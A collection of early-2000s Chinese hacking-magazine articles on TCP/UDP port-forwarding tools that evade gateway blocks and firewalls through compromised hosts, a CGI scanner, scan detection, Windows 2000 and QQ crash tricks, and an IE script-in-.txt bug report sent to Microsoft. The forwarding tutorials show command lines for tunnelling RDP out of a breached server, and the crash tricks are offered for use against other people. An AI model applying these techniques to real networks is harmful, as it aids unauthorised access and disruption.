通常公司不但会封锁 QQ，而且只允许员工浏览网页。例如在网关上做限制，除了允许访问外面的 TCP 80 端口，连接外面其他端口的请求都会被丢弃。这时候我们想上 IRC 去和朋友们交流、聊天的时候，就不能如愿了。QQ 和 IRC 可都是上网必备之品。

那么，我们怎么来突破呢？答案也是比较简单的。网关不是允许我们访问外面服务器的 TCP 80 端口吗？那么我们找个端口是 80 的 Socket 代理就解决问题了。我们提倡的是 DIY (Do It Yourself)，当然这也不是说什么东西都要自己来写，看各人的兴趣了。

复杂的 Socket 5 代理程序咱不会，咱写个简单的 Socket 数据转发程序还不行吗？程序流程是这样的：我们找一台互联网上的机器来给我们做数据转发，这样的机器很容易找。根据习惯我们称这个为“肉鸡”。假如“肉鸡”的 IP 是 202.202.202.202，那么在“肉鸡”上运行一个我们写的程序 TCPAgent.exe，监听 TCP 80 端口（没办法啊，网关只允许我们连接外面的 80 端口），假如这个端口已经被 IIS 占用的话，那么就换一台没有启动 IIS 服务器的机器吧，重用端口不稳定。好的，启动 IRC 客户端（我以前喜欢用 Cjcbot2000，现在改用 HIRC 了），在 IRC 服务器栏填 202.202.202.202 这个地址，端口是 80。当我们的 TCPAgent 检测到我们的 IRC 客户端已经连接后，马上创建一个 Socket，连接到真正的 IRC 服务器 202.109.72.40 的 TCP 6667 端口（这个 IP 是 irc.sunnet.org 的 IP）。这样数据通道就建好了，HIRC<====>肉鸡<====>IRC Server，HIRC 把发往服务器的数据发送到了“肉鸡”，然后“肉鸡”把它转发给服务器，“肉鸡”再把服务器的返回数据转发给 HIRC。

程序代码如下：


如果网管连 TCP 80 都不让我们上，把全部 TCP 数据包都在网关上封杀了，那又该怎么办呢？不要着急，看完最后一部分你就会明白的。

### 三、通过 TCP 和 UDP SOCKET 数据转发突破限制

我们在欺骗网关上 QQ 中提到一种情况，网管在网关设置，把 UDP 包全部丢弃，限制我们使用 QQ。这时候，我们要突破就比较麻烦了，不过还是有办法的，前提是允许 TCP 数据通过。这样我们可以用 TCP 和 UDP Socket 数据转发来突破，为此我写了个小程序来实现此功能，程序代码和注释附在后面。程序名称为 SuperAgent，我们先来看看此程序的用法：

```
E:\>SuperAgent.exe
SuperAgent use for TCP and UDP Socket data redirect. Power by ey4s<ey4s@21cn.com>
http://eyas.3322.net
2001/6/7
usage: SuperAgent.exe <mode>
  mode
   - t <TargetIP> <TargetTCPPort> <LocalUDPPort>
   - u <TargetIP> <TargetUDPPort> <LocalTCPPort>
```

此程序有两种工作模式：- (1)工作模式 - t, 提供 3 个参数,目标 IP 地址、目标监听的 TCP 端口和本地监听的 UDP 端口。
- (2)工作模式 - u, 提供 4 个参数,目标 IP 地址、目标监听的 UDP 端口、本地监听的 UDP 端口和本地监听的 TCP 端口。

如果我们想顺利突破网关上 QQ,就需要一台互联网上的肉鸡的协助。假设我们的肉鸡的 IP 是 202.202.202.202,我们的网关的 IP 是 101.101.101.101,咱的机器在内网的 IP 为 192.168.0.81,腾讯的 QQ 服务器的 IP 是 202.104.129.253,监听的是 UDP 8000 端口。我们先用肉鸡运行 SuperAgent,如下:

```
E:\>SuperAgent -u 202.104.129.253 8000 4000 1234
OK    Work mode is u.
Listen TCP 127.0.0.1 1234 ok
* * * * OK    SuperAgent working now * * * *
Wait for ey4s connect to me......
```

然后在本地运行 SuperAgent,如下:

```
E:\>SuperAgent.exe -t 202.202.202.202 1234 8000
OK    Work mode is t.
* * * * OK    SuperAgent working now * * * *
Bind UDP port 8000 ok.
Wait for UDP Socket have data to be recv.
```

再启动 QQ,把服务器地址设置为 127.0.0.1,端口设置为 8000,上线。怎么样?虽然网管封杀了全部 UDP 包,但我们还是可以上 QQ 了吧?不过这样一来 QQ 收发信息都是通过服务器中转的。

现在我来解释一下流程。

- (1)肉鸡运行 SuperAgent.exe 后,监听 TCP 1234 端口,然后阻塞,直到本地运行的 SuperAgent.exe 连接上来。
- (2)本地运行 SuperAgent.exe 后,监听 UDP 8000 端口,伪装成 QQ 的服务器,阻塞,直到 QQ 连接上来。
- (3)QQ 请求上线,发送数据到我们伪装的 QQ Server 127.0.0.1 8000。
- (4)本地运行的 SuperAgent.exe 收到 QQ 发送过来的 UDP 数据后,连接到肉鸡监听的 TCP 1234 端口。
- (5)本地的 SuperAgent 把 UDP 数据通过 TCP Socket 发送到肉鸡。
- (6)肉鸡接收到本地发送来的 TCP 数据后,通过 UDP Socket 转发到真正的 QQ Server。
- (7)肉鸡接收真正的 QQ Server 发送回来的数据后,通过 TCP Socket 发送到本地的 TCP Socket。
- (8)本地的 TCP Socket 接收到肉鸡发送过来的 TCP Socket 数据后,通过 UDP Socket 转发到 QQ。
- (9)重复 5-8 步骤。

第一种情况是允许 TCP 数据通过,封闭所有 UDP 数据。我们来看第二种情况,封闭所有 TCP 数据,只允许 UDP 数据。这时候可能有人要问:要是 TCP 和 UDP 数据都不让通过,那怎么办? TCP 和 UDP 全部禁止,这叫网关吗?不过如果 ICMP 允许的话,也可以用 ICMP 来转发。

继续说第二种情况的解决办法。我们还是利用 SuperAgent 这个程序来达到我们的目的，当然少不了一台互联网上的肉鸡的协助了。

我们先在本地运行:

```
E:\>SuperAgent.exe -u 202.202.202.202 5000 6000 6667
OK Work mode is u.
Listen TCP 127.0.0.1 6667 ok
* * * * * * * * * * * * OK SuperAgent working now * * * * * * * * * * * * *
Wait for ey4s connect to me......
```

202.202.202.202 是肉鸡的 IP, 5000 是肉鸡监听的 UDP 端口, 6000 是本地用来与肉鸡通讯的 UDP 端口, 这个可以随便填。最后面那个 6667 是本地监听的 TCP 端口, 可以随便填, 最后记得在 HIRC 设置服务器里面填写 6667 就可以了。

然后我们在肉鸡上这样运行:

```
E:\>SuperAgent.exe -t 202.109.72.40 6667 5000
OK Work mode is t.
* * * * OK SuperAgent working now * * * *
Bind UDP port 5000 ok.
Wait for UDP Socket have data to be recv.
```

202.109.72.40 是 irc.sunnet.org 的 IP, 6667 是它监听的 TCP 端口, 这是真正的 IRC 服务器。5000 是肉鸡监听的 UDP 端口。

启动 HIRC, 服务器地址填上 127.0.0.1 6667, 上线了吧?

工作流程如下:

- (1) 本地 SuperAgent 监听 TCP 6667 端口, 阻塞, 直到 HIRC 连接上来。
- (2) 肉鸡 SuperAgent 监听 UDP 5000 端口, 阻塞, 直到本地的 SuperAgent 有数据发送过来。
- (3) HIRC 连接到本地伪装的 IRC Server 的 TCP 6667。
- (4) 本地 SuperAgent 接收到 HIRC 发送来的 TCP 数据后, 通过 UDP Socket 转发到肉鸡监听的 UDP Socket。
- (5) 肉鸡监听的 UDP Socket 接收到本地发送过来的数据后, 连接到真正的 IRC Server 的 TCP 端口, 然后通过 TCP socket 把数据发送到 IRC server。
- (6) 肉鸡接收 IRC Server 返回的 TCP 数据, 通过 UDP Socket 转发到本地的 UDP。
- (7) 本地接收到 UDP 数据后, 通过 TCP socket 转发到 HIRC。
- (8) 重复 4-7, 第 5 步连接到 IRC Server 的 TCP 端口的不重复。

用 TCP 和 UDP Socket 数据转发有时候也可以用来突破防火墙。

我们来看看这种情况。以下是网络拓扑图如图:


假设(其实这样情况我遇到过,但没有以下说的复杂而已)202.2.2.2 是我们授权入侵的目标,前面的 FireWall 的过滤规则是只允许外面访问 202.2.2.2 的 80, 不允许 202.2.2.2 TCP 连接出去, UDP 数据包不做过滤。经过我们检测, 发现 202.2.2.2 的 IIS 有漏洞, 我们可以通过 80 执行命令，而且打开了 TermService 服务，登录验证漏洞没有补。但是由于有 FW 的阻挡，所以我们是连接不上目标的 TermService 来取得 Admin 的权限。而且 FW 不允许 TCP 反向连接，这样，我们只能通过 UDP 和 TCP Socket 数据转发来达到目的。

这次我们不需要肉鸡的协助了，先在本机 192.168.0.2 上运行：

```
E:\>SuperAgent.exe -u 202.2.2.2 5000 6000 3389
OK    Work mode is u.
Listen TCP 127.0.0.1    3389 ok
* * * * OK    SuperAgent working now * * * *
Wait for ey4s connect to me......
```

202.2.2.2 是目标的 IP, 5000 是目标 IP 监听的 UDP 端口, 6000 是本地监听的 UDP 端口, 3389 是本地监听 TCP 端口, 伪装成 TermService。然后我们在目标上通过 80 运行 SuperAgent.exe -t 127.0.0.1 3389 5000，参数就不用解释了吧。

工作流程如下：

- 1. 本地监听 TCP 3389 端口，阻塞，直到 TermClient 连接上来。
- 2. 在目标机器上监听 UDP 5000 端口，阻塞，直到有 UDP 数据发送过来。
- 3. 用 TermClient 连接本地的 3389。
- 4. 本地的 SuperAgent 把从 TermClient 接收到的 TCP 数据，通过 UDP Socket 发送到目标的 UDP。
- 5. 目标的 UDP Socket 接收到数据后，连接到本地的 TCP 3389，即真正的 TermService。
- 6. 目标把接收到的 UDP 数据通过 TCP Socket 转发给 TermService。
- 7. 目标接收 TermService 返回的 TCP 数据，通过 UDP Socket 发送到攻击者的 UDP。
- 8. 本地的 UDP Socket 接收到目标 UDP 发送过来的数据后，通过 TCP Socket 转发给 TermClient。
- 9. 重复步骤 4、6、7、8。

启动 TermClient，连接本地的 3389，出现的是防火墙后面的目标终端服务的界面吧？

SuperAgent 完整的 C 程序代码如下，我加了很多注释，希望对你有所帮助。


程序在 VC++ 6.0, Windows2k 上编译通过，编译好的版本在 http://eyas.3322.net 有下载。

## 透视 CGI 扫描器的原理和实现过程

文/eyas

有很多网站为了安全起见，在 Web Server 前面架设了防火墙，或者做了 TCP/IP 过滤，对外只开放 TCP 80 端口。从入侵者角度来看，如果要入侵的话，从 80 端口上运行的 CGI 入手是比较可行的，当然也可以用别的办法。从网管角度来看，一是要保证 CGI 的安全性，另外网络的整体安全性也是很重要的。针对基于 80 端口入侵、防范而出的 CGI 扫描器数不胜数，但基本原理都一样。

CGI 扫描器原理说起来其实非常简单，可以用 4 句话来概括：

- 1. 连接目标 WEB SERVER。
- 2. 发送一个特殊的请求。
- 3. 接收目标服务器返回数据。
- 4. 根据返回数据判断目标服务器是否有此 CGI 漏洞。

当管理的服务器达到一定数量的时候，手工检测自己的服务器是否存在各种各样的 CGI 漏洞就太消耗时间和精力了，所以一个网管有个比较好用的 CGI 漏洞扫描器还是必要的。好，现在我们就自己来动手用 C 写一个简单的 CGI 扫描器，帮助自己在日常工作中检测服务器。源代码如下(很多地方我都加了注释，编译好的程序可以从 http://eyas.3322.net/program/cgicheck.exe 下载)：

```
Module CGICheck.cpp
```

说明：这是一个 Console 下多线程，带有进度显示的 CGI 扫描器的模板，更改一下 SzSign 和 SendBuff 就可以扫描其他 CGI 漏洞，设置了连接、发送、接收超时，速度还可以。希望可以帮助到 Admins 检测自己的服务器。


程序在 VC++ 6.0 上编译通过，在 Windows2000 上运行良好。

## 用 VB 来编写监听木马探测以及常规扫描的程序

文/卫顺盛

上网的时候被别人探测是常有的事，一般探测你个人的入侵者技术不会高明到哪里去。所以根本称不上黑客，所以本文就用入侵者来代替。他们对普通网民的扫描可以是多端口单 IP 的扫描或者多 IP 单端口扫描。前者是通过一些 IP 工具来取得你的 IP，然后尝试利用端口扫描获取你的信息，看你的计算机有没有预先中了木马。然后通过网上的木马端口列表，来获得木马名称。用相应的客户端软件来连接到你的计算机。从而获得密码、以及你的秘密信息。后者则是通过利用如 SuperScan 等可以大范围扫描 IP 的软件，扫描打开特定端口的机器。比如，可以扫描打开 7626 端口的机器，看对方是否中了冰河。然后，入侵者就用客户端连接到服务器从而入侵你的计算机。

这些扫描是简单的 TCP 的 Connect 扫描。所以无法避开防火墙的追踪。网民就可以利用天网等防火墙软件来获取对方的 IP。相信很多 DIY 迷或者编程爱好者总是想拥有属于自己的类似的工具。本文就给你讲述如何用 VB 来编写探测入侵者的 IP 地址的工具。本程序还可以让你监听 80 端口，来察看对方对你进行的常规扫描。要看懂本文，你需要有一定的 VB 基础。

下面我们来看看本程序的基本原理：
入侵者通过 Connect 本机的端口，来获得信息。由于 TCP 的三次握手原理，他必定会留下自己的 IP，我们就利用这一个原理来获得对方的 IP。

Winsock 控件的属性、方法和事件在本刊中《用 winsock 制作漏洞扫描器》一文中已经叙述过，读者可以对照参考，这里就不再介绍。大家还一定记得 RemoteHostIP 和 LocalPort 属性吧。这就是对方的 IP 和自己的端口。通过这两个属性就可以清楚地获得对方的 IP 地址和他正在扫描的本地端口。

因为一个端口不一定只有一个人会扫描，所以本程序我们需要使用到控件数组。这个概念的描述大家可以查找 MSDN。本程序的流程是：

- 1. 定义需要监听的端口；
- 2. 装载一定数量的 Winsock1 控件，从需要监听的端口列表中获得数据。一一开启监听功能（Listen）；
- 3. 当某一个控件接收到连接的事件发生，就把得到的 RemoteIP 和 LocalPort 加入日志；
- 4. 加载一个 Winsock2，继续捕获数据（Getdata）；
- 5. Winsock2 数据到达记录数据。

程序的基本概念都介绍完了，相信你对本程序已经有了一定的认识。现在我们就来开始我们的工作：

程序的控件以及说明如下：

| 控件名 | 控件类型 | 属性 |
|---|---|---|
| Label1 | Label | Caption=“ 增加端口” |
| Command1 | command | Caption=“ 添加” |
| Command2 | command | Caption=“ 监听” |
| Command3 | Command | Caption=“ 退出” |
| Listports | Listbox | 无 |
| TxtLog | Richtextbox | 无 |

程序的界面如图：


程序的代码以及说明如下：


总结：其实一些程序的原理很简单，我们只要勇于实践，并且能够把所学的知识运用到你的程序中去，我想编出类似的程序是很简单的。如木马、端口扫描器、客户端工具、CGI 漏洞扫描器……VB 的 Winsock 控件虽然不是底层操作，功能不如 C 语言的 Socket 编程。但实现普通的操作还是很有用的。简单的例子就是 Cookie 欺骗，用 VB 来编写这种程序十分简单。

## 浅谈 Windows 2000 的本地破坏性操作

渗透实验室：大皮球

微软的东西，说好也好，说不好，还真糟糕！Windows 平台上的软件也总出问题……到各大安全站点，走走看看那些安全公告……呵呵怎么样，是不是好多都是 MS 的大 Bug？所谓强壮的 Windows 不知道要穿多少补丁的外衣才算是安全的。

你可能会说：“我把微软提供的补丁统统打上，关了所有的服务，看你能怎么样”那除非您不上网了，上网一样会叫您完蛋。

不对不对，不上网，几个基本操作一样会让 Windows 2000 挂了！不信？那我们就试试？为了保证准确性，您先上个 Windows 2000 Sp2，打过补丁的漏洞我们都不看了，我们要看一些没用补丁的东西。把不需要的东西统统关掉，用 Administrator 身份登陆，该存盘的存盘，一会儿别怪我没提醒您啊！

现在我们来测试几个本地的 Bug 吧，先来个简单点的：

Windows 2000 下，记得 Windows 一直都鼓吹说自己的系统能够良好的支持长文件名，大概每个人都要用文件夹吧！如果您用这招 10 台电脑有 5 台会挂，即使打补丁也是没用的！少说多做，具体操作试一试！

- 1. 在桌面上建立一个文件夹，名字就叫做“_”，这个符号你能写多长就写多长，写个最长的目录名......
- 2. 好了吧？现在你对这个目录做个操作试试，随便什么操作都成。不知道您的电脑是不是会比较倒霉，运气不好，你的 Windows 2000 就挂了，这个机率是 1/2。

忘记说了，这个问题同样会出在文件上，就是说如果是个文件，不是文件夹，一样会崩溃的。想删除这个文件夹有点麻烦了！点右键，崩溃；按 Delete 键，崩溃；去资源管理器里删，一样崩溃。没办法，开个 CMD 窗口手工删吧！

文件名问题的 Bug 不只于此，还有呢！

相信吗？我在你的应用程序目录下随便写个文件或者建立一个目录，你的程序就运行不了啦！这个可是真的，原因一会儿再告诉你。

先来测试一个大家都熟悉的软件 OICQ 吧：

- 1. 打开 OICQ.exe 文件所在的目录
- 2. 建立一个文件夹，名字为 ws2_32.dll
- 3. 启动你的 OICQ

100% 报告初始化错误！为什么？原因是微软把目录和文件作为同级的东西来处理了，而 OICQ 是一个网络通讯类的程序，所以必然要调用 Winsock 的一系列 API，而这些 API 是存放在 winsock.dll 和 ws2_32.dll 里的，Window 有个特点，就是找动态连接库的时候，会先在应用程序当前目录搜索，然后才会搜索 Winnt，System32，System...... 好！我们就利用这个特点，建立一个名字为 ws2_32.dll 的“目录”在 OICQ 程序所在目录中，系统会把它当作一个文件优先调用的，当然死定了！如果黑客们把这个 DLL 文件夹替换成一个精心制作好的 DLL 文件，那就等于把你黑了。

我们继续看下一个吧！

还是用 QQ，你发送给对方一个文件，长度为 0 字节，对方就倒霉啦，铁定非法操作，QQ 崩溃了！如果有人在 QQ 上欺负你，这招满不错的！QQ 上，其实还能玩出很多古怪的东西呢，比如让你的 QQ 串号，做 UDP 劫持，可以让你收到别人的消息！真的，不过这个我没继续搞下去。

使用上述方法，本地机器已经不存在什么稳定了！其实 Windows 2000 下，蓝屏的方法还有很多呢！比如构造一个特殊的 ICMP 包，然后发给自己，然后就...... 不过那个要写点程序了。

## 与微软的第一次接触 竟然会这样

小编寄语：这篇稿件来自微软安全中心的真实的交流，由攻防实验室成员 Crazybird 实践和撰写而成。看过之后只有感慨和无奈，没错，咱们本国软件技术落后，给人家的软件提意见，人家当然是不屑一顾。什么时候中国的软件业能够腾飞呢？

文/Crazybird

没有想到和微软的第一次接触竟然是这样的

这一切的起因应该是由于我的习惯。需要说明一下，我习惯浏览网页的时候都查看它的源代码。那天晚上我上传一篇.txt 格式的文章到个人主页空间，传上后访问的同时习惯性地看了看源代码，想自己加一点 HTML 语言上去会看起来更舒服。于是用 NotePad 写上点 HTML。加上 HTML 后直接以 txt 文件形式上传了，忘记把 txt 文件存为.html。通过 IE 浏览发现 IE 仍能读出。问题就出来了。凭着个人对安全的认识，意识到这是个漏洞。

那是凌晨四五点钟，我贴了一份测试在国内一个比较有名的网络安全 BBS 上。在贴出后，经过反复思考，发现这个漏洞在利用和涉及面上都具有难以让人预测的危险。于是在贴出半小时后让论坛版主删去那篇贴子。考虑到这个漏洞的严重性，开始准备与微软交涉，希望他们能尽快解决这个问题。然而到写这篇文章为止，结果还是让人失望，微软始终不肯承认这个漏洞的安全威胁。甚至找一切借口逃避责任。他们现在给出的所有论据都不能说服一个有一点安全常识的用户。我们做个假设，一个地方有炸弹，如果那炸弹被证明是某个公司不小心布下的，这个公司知道了，他们坚决不肯同意撤下炸弹，而是告诉所有要路过这个地方的人，为什么你不先穿上防弹衣再去现场呢？

微软是前后矛盾的。在第二封信中，他们在我要求进一步解释后承认了这个错误。可在后来的信中，却又改口称这个错误是“WELL-KNOW”，让人很不能理解。一个顶级的公司，既然对自己的安全隐患这样不重视。于是我给他们实际例子证明这样的漏洞将给用户带来多大的影响。我给他们一个 JavaScript 修改注册表的小脚本，加在一幅 JPG 图片中。修改扩展名为 JPG，使人看起来像是在访问 JPG 页面。因为是测试用，我在修改注册表中添加了只修改“IE title”这样一个没有什么危害，却足以证明一切的小脚本。我把源代码寄给了微软公司安全组。令人遗憾的是，他们竟然用那样毫无证明力的证据来否定我的担心。

因为这个 IE 漏洞，我们可以在 Web 页面的源代码中加入任何对用户具有威胁性的脚本。只要用户使用 IE 打开 Web 页面，不论 TXT 还是别的非下载类文件格式，都能出现这样的文件扩展名误读错误的现象。然而这种 Web 方式在扩展名或文件形式上可以做到很直接的欺骗效果，所以你看到的只是单纯的 TXT 或 JPG 或别的让你不会提高警惕的文件类型。攻击者曾就为达到此欺骗目的想尽一切可行的办法。实际足以见得，这次，因为微软的大意，一切都这样简单地实现了。当你打开一个 TXT 文件扩展名或者别的足以让你“放心”的文件扩展名的时候，你连防备它的心理准备都没有，这就是利用普通用户的定式思维。大家都应该记得吧，我们在 Internet 上访问网页的时候，就有过小心“中招”的教训。在数量比较多的网络安全防御文章中，网络安全专家们都一再提醒大家：访问 HTML 网页要注意，可能被插入有害代码。但是现在，微软的这个漏洞让所有非下载类文件都可以被用来加载在.html 文件上所能插入的一切代码。这些代码可能是附有攻击性的，而使用者毫不知道。比如，我可以插入一段 JS 代码，但你以为只是打开了一个 TXT 的 Web 页面。试想，当你阅读一篇 txt 小说或者查看一幅很漂亮的 JPG 图片的时候，你的硬盘正狂转着，你会去怀疑页面的问题吗？你会想到你所放心浏览的页面也可能被植入病毒吗？当你发现不妙的时候，您的资料已经被删的差不多了。也许，原来这一切是不可能做到的——可是现在微软做到了。

如果联想到 Mail 呢？用附件形式，同样的漏洞方式。后果如何？难以想象。所以，我个人认为这个漏洞对 IE 用户的安全威胁还是相当大的。

一直不愿意把漏洞公布。原因很简单，任何有点计算机基础的人，都可以几分钟内明白这个漏洞的实现方法。一旦被恶意用户利用，后果是让人担忧的。十分遗憾的是，微软一直不肯正视这个问题。本人和国外朋友讨论中发现，这个漏洞的修补确实是一件比较困难的事。下面是我和微软的数次通信内容。编者注：作者原信件为英文，为了方便读者，作者特将其大意译为中文，原文放在光盘\xiangguan\MS 的信.htm，有兴趣的读者可以去看看。希望通过这个例子，可以给安全工作者们一些启发：

## 1. 本人向 MS 报告漏洞的第一封信件内容

各位注意，我刚刚在写文章时发现一个 IE Internet Explorer 的漏洞。这个缺陷使别人能利用它来对机器造成损害。我在 txt 文件中写了 HTML 代码和 JAVASCRIPT 代码，并将其放到 Internet 上，我发现 IE 将这个文件作为 HTML 文件处理。如果有人用 html 或者 javascript 代码写一个 txt 文件放在网上，然后让人去读取这个文件，将会有什么样的结果发生？

### 测试：

- JS：测试通过，到以下地址查看：crazybird.51.net/look.txt
- 将后缀名改为 *.aaa：测试通过，到以下地址查看：crazybird.51.net/look.aaa
- txt：测试通过，到以下地址查看：crazybird.51.net/test.txt
- 显示在地址栏的后缀名没有变为 *.htm/*.html

但是 JS 依然可以执行。

结合 MIME 头漏洞的利用，只需要将文件的后缀名简单从 *.html 改为 *.txt，就可以让人下载木马程序！

Crazybird
21/07/01

## 微软给我的回信

Hi -

感谢你的提醒。我想确定一下我是否正确理解了你所描述的情况。你的意思是说你发现：如果一个包含了脚本代码的.txt 文件用 IE 打开，脚本程序就能被执行。是这样吗？

Scott
22/07/01

## 2. 我再次给微软回信：迫切地希望问题能得到及时的解决

Hi -

是的，不仅仅是.txt 文件。还有.jpeg/.png 等等，甚至包括无扩展名的文件。只要文本中含有完整的 HTML 语句格式，这些使用频繁的文件类型经测试都会出现这种错误。我试着用 WORD 读了，现象和 IE 读出的一样，用 IE6 测试版访问，依旧出现读错现象。

试想，如果有居心恶毒的人利用这个错误做.jpeg/.png/.txt 这些类型的页面给大家访问，后果会如何？在 7 月 21 号之前，大家也许只会提防.htm/.html 的页面，现在呢？

后台运行 JS JavaScript、VBS VBScript 可以对你的计算机造成巨大的伤害！

HappyTime 这个利用 HTML 传输的病毒如果利用在这样的页面上，后果可想而知。中国已经有很多专家分析过这个病毒，如果需要我可以发它的源代码给你。

这个漏洞我还没有在网上公开发布，希望得到你们的重视，尽快拿出解决办法。我写了一个调用 JS 脚本的“HTML 查看”页面 http://crazybird.51.net/look.htm，也只能在访问前暂时查看页面源代码，难道任何页面访问前都要查看？

Crazybird
22/07/01

## 微软的回信

Hi -

感谢提供更多的信息。在 IE 处理包含有 html 代码的文件时，会将它作为 html 文件方式显示，这点你是对的。这就是一些包含了 html 代码的.txt 文件在被别人浏览时会用 IE 打开的原因。HTML 文件可以被执行。然而，有两点需要注意，这两点让我们确信这不是什么安全漏洞。

第一，代码可执行的行为受到 IE 安全模式的限制，这就是说，后缀为.txt 的文件并不能比后缀为.htm 文件有更多的可执行权限。

第二，.txt 文件和其它常用文件类型在默认情况下不会用 IE 来打开，除非用户手工指定用 IE 打开。默认情况下，.txt 文件是用记事本打开的，而非 IE，这就说明，攻击者不仅要让用户打开.txt 文件，还要让他用 IE 打开 .txt 文件。

如果以上的分析有遗漏之处，希望告诉我。我希望我们的确解除了你的忧虑。

Regards
Scott
22/07/01

这封信里，显然微软承认了这个处理错误，却不肯承认这是一个安全漏洞，且用那样毫无论证依据的测试来回复我。

## 3. 我继续写信给他们解释

您说的那两点我不太同意。您的第一点，IE 确实在 HTML 的安全检查上做了些防御，IE 的安全等级只有定在“高级”才能真正做到实际的防御。但是访问 WEB 的用户都要用到 COOKIE 调用 JAVA，如果这样才算安全，似乎不浏览网页才算真的安全了。

您的第二点，您说“攻击者需要某种程度上的确信用户打开.txt 文件且不仅打开，还要让他用 IE 打开 .txt 文件”。如果是给用户植入木马，或许需要确认用户是否打开.txt 文件以及是否运行。但请您注意，如果只是修改注册表，或者格式化硬盘呢？现有的技术，完全有能力把格式化用户的硬盘的过程在后台运行。

当您在使用 IE 看.txt 格式或者别的不是.htm 的小说，或者看一幅十分精美的图片的时候，即使听到硬盘高速转动，会去考虑有人在给您的机器“动手术”吗？因为被一贯的思想蒙蔽了，用户以为只有 HTML 网页才会有可能带来那样的破坏。另外，还可以用 JS 或 VBS 使用病毒，比如我给您寄来的这段代码，在中国破坏了不少用户的计算机注册表。这样的代码，稍微有点 JS 或者 VBS 基础的人，在网上随便搜寻点注册表资料就可以很容易做到。您不认为这是安全危险？

请认真考虑这个问题，我将在下周公布这个发现，希望在那之前 MS 能拿出实际的解决方法。

Bye
I'm Chinese
Crazybird
22/07/01

## 下面是微软给我的回信

Hi -

我想确认我们是否在讨论同一情况。你是否可以一步一步解释如何利用你的发现来攻击别人?

Scott
23/07/01

看了这样的回信我无话可说了，微软不仅仅有技术啊。

## 4. 锲而不舍，回信

我实在不理解你们的工作效率!

很简单的方法。我上封信中给了你们一个 JS 病毒源代码。攻击者只要把它加在网页中就能达到修改注册表的效果，用户遭到伤害。利用这个 IE 处理错误的漏洞，可以把这个 JS 放在.txt 中（这里不要我再说如何实现吧？我在前面的信里已经说的很清楚了）。

由于用户的定式思维，txt 页面是不会产生警惕的！给你的还只是 JS 修改注册表的办法。如果是 VBS 呢？加载杀伤力极大的病毒。

另外，现在还有多少人以 WEB 方式查看信件的？只要使用 IE，WEB 查看信件。附件不是.htm.exe.vbs，别的能放心吗？

我觉得我们在浪费时间，阐述一些你们都清楚的问题。快把漏洞补丁做出来吧。

Crazybird
24/07/01

## 微软收到信后给我的回复

Hi

谢谢你的提醒，但是很抱歉，我们还是必须要询问更多相关信息。你给我们的只是一个概念，而非确切的数据。为了完全确定你所报告的内容，我们必须能看到你所发现的一切。这是为什么我希望可以看到一步一步的解释。

我们同意当一个包含 html 代码的.txt 文件用 IE 打开，这个文件中的 html 代码可被执行。但这是众所周知的，而且也已经在以前的安全公告中讨论过。我们确信这不会是个安全问题的原因是：.txt 不会自动用 IE 打开，除非用户手工指定。如果用户只是简单的双击.txt 附件的话，文件将用记事本打开而不是 IE。我们需要更多信息的原因是你提到了这个问题涉及到其它一些文件，例如.jpg 等默认用 IE 打开的文件。我们进行了测试，但是没有发现任何情况。相反，我们所测试的每个页面的 html 代码都没有影响到 IE。事实上，图片并没有显示。我们需要步骤，就是想看看你到底是怎么做的。如果你能给我们一个.jpg 文件来证实你的描述，我们可以马上告诉你，这是不是一个漏洞。

希望你可以继续跟我们合作，来证实你的报告。尽管我们尚未看到任何可以证实这是个安全漏洞的证据，但我还是希望确认我们考虑到了一切可能性。

Scott
24/07/01

## 5. 我再次给他们去信

这次我做了个测试页面.JPG 形式。在后台运行，修改访问用户的注册表“IE Windows title”，不具危害，但足以证明一切。

这是你们要的.jpg 例子。很不理解你们在干什么！你们表现出来的似乎是，正试着逃避一些东西。你们的行为告诉我，微软的一个安全小组不了解微软的浏览器！

http://member.netease.com/~zds/ie_bug.jpg

以下是写给微软的一个利用此 IE 漏洞伪装成.jpg 页面修改“IE title”的源代码


这个加了一个 JS 和 JPG 图片的组合。把 IE title 修改成 “I'am Chinese”

Crazybird
25/7/01

## 他们的回信

Hi -

感谢你提供的信息，这对我们相当有用，让我们了解了你所报告的究竟是什么。我尝试用多种不同的方式查看这个文件，以下是我所看到的结果：

- 当我在我们网站上浏览时，得到一个 ActiveX 控件被关闭，页面可能无法正确显示的提示。（事实上，它的确没有正确显示）这无法证明图片中的 javascript 和普通 web 页面中的 javascript 有什么不同。
- 当我将图片保存在我的桌面上，并双击打开。它是用 Microsoft 照片编辑器打开的，这不支持 javascript。也就是说，打开这个图片非常安全。
- 当我用 IE 打开图片时，Javascript 并没有运行，图片照常显示。这依然是个安全的操作。

你所发现的是不是通过以上步骤得到的？现在我有一个样本了，我会和 IE 安全小组一起研究一下，看看他们是否看到我没有察觉的东西。我会通知你我们的研究结果。

Scott
25/7/01

他们说开始研究了，希望能给我满意的答复。

## 7.26 收到信了，抱着欣喜的心情去打开它：

Hi -

有些信息告诉你。我请 IE 安全小组看了.jpg 文件，以下是我们的发现：

- 包含脚本的文件仅在从网站下载时才用 IE 打开。此时脚本是在站点范围运行的。
- 这些文件在本地操作时处理方法是不同的。特别是图片文件是通过图片处理子系统传输的，根本没有让脚本运行的机会。文本文件中的脚本是个特例，它可以被执行。

因此，我们可以确信这不是个安全问题。

- 一个站点的制作者的确可以在.jpg 文件中加入脚本。但是脚本只会在本站点运行。攻击者将脚本插入到.jpg 文件中根本就没有意义。
- 如果攻击者能让用户下载包含脚本的图片文件到本地并双击打开，图片将可能用 IE 打开（要看是什么操作系统）。但是即便如此，包含的脚本将不会被运行。
- 如果攻击者能让用户下载一个包含脚本的文本文件到本地并双击打开，默认情况下，它将是用记事本打开，脚本不会被运行。

如你有其它方法，请告诉我们。我们希望保证确实完全证实了这个情况。但我们相信我们的回答是完全正确的。我们首先查看了代码，看看系统将会如何操作，然后用你提供的.jpg 文件来确认我们的假设正确。感谢你，希望可以有更深一步的讨论。

Scott
26/7/01

愤怒！“As a result we believe that there is not a security vulnerability.” 一个顶级的大公司竟然对自己的安全漏洞有这样的态度！仔细看完了信，还是那样的空洞，一样的语气，我给出的例子已经足以证明一切了！

二十六号五点，具体分析了他的内容！迷惑了一个晚上抓住重点了！！他们一直在回避一个话题！就是我在和他们报告 IE 的漏洞！而他们似乎开始默认 IE 就是这样处理的！他们这封信给我论述的问题跑到脚本上了。脚本是不完美！但那受的只是创造力限制！开始我的思维没展开。一直在想，似乎他们说的对。我没理由反驳。等我换个角度，对了，他们在误导我！想让我慢慢跟他们的思路走，让我觉得这个漏洞不是什么大不了的！其实不是漏洞没什么大不了。是我做的那个脚本没什么大不了！GOOD！回一封信给他们，要他们找中文翻译！现在不是我求他们！

SCOTT：

